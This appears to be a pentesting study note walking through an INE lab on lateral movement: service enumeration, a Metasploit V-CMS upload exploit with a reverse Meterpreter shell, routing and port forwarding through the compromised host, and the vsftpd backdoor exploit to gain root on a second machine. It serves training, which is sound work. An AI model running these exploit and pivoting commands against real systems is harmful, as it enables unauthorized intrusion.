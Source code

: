 ```yaml
---
title: Lateral movements
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
---
```


# Lateral movements


![lateral-movement.png](img/lateral-movement.png)


## using metasploit

1. Get our ip

```bash
ip a 
# 192.64.166.2
```

2. Get machine ip 

```bash
ping demo.ine.local
# 192.64.166.3
```

3. Enumerate services in the target machine  

```bash
nmap -sV -sS -O 192.64.166.3
# open ports: 80 and 3306.
```

4. Go further on port 80

```bash
nmap 
# In the scan you will see: V-CMS-Powered by V-CMS  and PHPSESSID: httponly flag not set
```

5. Launch metasploit and search for v-cms

```bash
service postgresql start
msfconsole -q
```

```msf
search v-cms
```

6. Use the exploit exploit/linux/http/vcms_upload, configure it and run it

```msf
use exploit/linux/http/vcms_upload
show options
```

```msf
set RHOST 192.64.166.3
set TARGETURI /
set LHOST 192.64.166.2
set payload php/meterpreter/reverse_tcp
run
```

7. You will get a limited meterpreter. Access to the shell and print the flag

```msf
meterpreter> shell
> cat /root/flag.txt
# 4f96a3e848d233d5af337c440e50fe3d
```

8. Map other possible interfaces in the machine. Since ifconfig does not work, spawn the shell and try again

```bash
ifconfig 
# does not work
```

```bash
ipconfig
# does not work
```

```bash
which python
# it’s located under /bin, so we can use python to spawn the shell
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
$root@machine> ifconfig
# it tells us about another interface: 192.182.147.2
```


### route

9. Add tunnel from interface 192.64.166.3 (which is session 1 of meterpreter) and the discovered interface, 192.182.147.2 with the utility route:

```bash
$root@machine> exit
```

```msf
meterpreter> run autoroute -s 192.182.147.0 -n 255.255.255.0
# you can also add a route out of the meterpreter. In that case you need to specify the meterpreter session: route add 192.182.147.0 .0 255.255.255.0 1
```

10. Background the meterpreter session and check if the route is added successfully to the metasploit's routing table.

```msf
meterpreter> background
msf> route print
```

11. Run auxiliary TCP port scanning module to discover any available hosts (From IP .3 to .10). And, if any of ports 80, 8080, 445, 21 and 22 are open on those hosts.

```msf
msf> use auxiliary/scanner/portscan/tcp

msf  auxiliary/scanner/portscan/tcp > set PORTS 80, 8080, 445, 21, 22

msf  auxiliary/scanner/portscan/tcp > set RHOSTS 192.69.228.3-10

msf  auxiliary/scanner/portscan/tcp > exploit
# Give us ports 21 and 22 open at 192.182.147.3
```

### portfwd

12. In order to reach the discovered target, we need to fordward remote machine port to the local machine port. We want to target port 21 of that machine so we will forward remote port 21 to the local port 1234. This is done with the utility portfwd from meterpreter

```msf
msf  auxiliary/scanner/portscan/tcp > sessions -i 1

meterpreter> portfwd
# Tell you  there is none configured

meterpreter> portfwd add -l 1234 -p 21 -r 192.182.147.3
# -l: local port 
# -p 21 The port we are targeting in our attack 
# -r the remote host

meterpreter> portfwd list
# It tells the active Port Forwards. Now, scan the local port using Nmap
```

13. Run nmap on the forwarded local port to identify the service name

```msf
meterpreter> background

msf> nmap -sS -sV -p 1234 localhost
# It tells you the ftp version: vsftpd 2.0.8 or later
```

14. Search for vsftpd exploit module and exploit the target host using vsftpd backdoor exploit module.

```msf
msf > search vsftpd 
msf> use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit/unix/ftp/vsftpd_234_backdoor>   set RHOSTS 192.69.228.3
msf exploit/unix/ftp/vsftpd_234_backdoor> exploit

# Sometimes, the exploit fails the first time. If that happens then please run the exploit again.

$> id
# you are root.
```

15. Print the flag

```msf
$> cat /root/flag.txt
# 58c7c29a8ab5e7c4c06256b954947f9a
```

